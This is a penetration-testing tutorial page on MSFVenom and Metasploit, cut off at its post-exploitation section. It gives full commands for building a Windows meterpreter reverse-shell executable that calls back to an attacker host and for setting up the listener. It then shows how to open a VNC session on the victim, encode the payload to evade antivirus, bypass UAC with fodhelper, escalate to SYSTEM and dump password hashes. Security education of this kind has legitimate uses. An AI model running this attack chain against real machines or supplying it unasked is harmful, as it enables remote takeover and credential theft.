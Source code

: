 ```yaml
---
path: "/tutorials/securitypentesttools/msfvenom"
date: "2020-04-06"
title: "MSFVenom"
---
```


MSFVenom is a tool used to create malicious payloads for the Metasploit framework. The Metasploit framework is a tool for developing and executing remote exploits on a vulnerable target. Tools within the framework allow you to complete various stages of a penetration test.

####Establishing a VNC Session
MSFVenom can be used to create lots of different types of payload. One of these can be used to establish a VNC session on a remote host. Virtual Network Computing (VNC) is a system that allows remote graphical connections to a host, this allows you to use the device remotely as though you were sitting in front of it. There are a number of VNC variants offering different features. Establishing a malicious VNC session on a target machine gives you a good foothold in a target network.

Generating a payload is simple enough:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attackerIP> LPORT=<myPort> -o /root/Desktop/evil.exe
```
* *-p* - Specifies the payload we'd like to use. There are a large number of payloads to choose from.
* *--platform* - This is where you choose the platform the payload is for. Use the man page to discover the available payloads.
* *-a* - Architecture the exploit will run on.
* *-f* - The format of the output file
* *LHOST* - For this exploit this is how you specify the IP address of the listening machine
* *LPORT* - Similar to the above this is how you specify the port the listener will listen on.
* *-o* - The name and location of the output file.

This will generate an exe file that can run on Windows. 

We'll now start the listener on our attacker machine.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
exploit
```

The listener is now setup.

During a normal penetration test you would have to find a way to get the file onto a target machine, this is the tricky part but I won't be telling you how to do it.

Once the user runs your exe file the system will be compromised. You'll see that the listener opens a meterpreter session and displays the IP and port of the listener and the victim.

Now we can use the established connection to tamper with the victim machine.

```bash
session -i 1
sysinfo
run vnc
```
* *session -i 1* - This ensures we are using session 1.
* *sysinfo* - Displays basic information about the system the session is open on.
* *run vnc* - Opens up a VNC session on the infected machine. Once this command is run you will see a screen appear showing the user's desktop.

**N.B** The exploit that we have created using MSFVenom will likely be caught by most standard antivirus tools. The are methods to reduce the chance of detection, but I won't go into detail for this section.




####Escalating Privileges
Escalating privilege is an essential part of any penetration test. This allows you to compromise a normal user account and then increase your level of privilege, enabling you to perform further actions on your victim's network/device.

To generate the exploit generate our payload we'll use the following command:
```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" -f exe LHOST=<attackerIP> -f Desktop/escalation.exe
```

This is similar to the command we used to create the previous payload with a few key differences.

* *-e* - Sets the encoding on the output file. This can help to avoid detection by antivirus, however, a lot of scanners will still detect this.
* *-b* - You can provide a list of characters to avoid.
* *-f* - Where you're outputting the file.

Start the listener on our attacker machine.

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
exploit -j -z
```

Again you'll have to figure out how to get this onto the target machine. Once the target has run the exe you'll have a session established with the target. Make the session interactive and grab the current user's username.

```bash
session -i 1
getuid
```

Depending on the user's privilege level you won't be able to perform administrator type actions. We now want to escalate our privileges so that we 'own' the system.

```bash
background
use exploit/windows/local/bypassuac_fodhelper
set SESSION 1
```

* *background* - Sends the current session to the background so you can perform the next tasks.
* *use exploit/windows/local/bypassuac_fodhelper* - Sets the exploit you want to use.
* *set SESSION 1* - Sets the SESSION variable for the exploit. **N.B.** Different exploits use different variables, to see the available options and a description use the `show options` command.

```bash
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
set TARGET 0
exploit
```

You should now have a new meterpreter session open.

```bash
getsystem -t 1
```
This should have escalated your privileges to the 'SYSTEM' account. If you use `getuid` you should see the username is now SYSTEM.

We can now dump the password hashes of users on the system as well as password hints.

```bash
run post/windows/gather/smart_hashdump
```

If this command works then you have successfully escalated you privilege. Well done!

####Post Exploitation Activities
So you've compromised a device and escalated your privileges, now what?

Well you can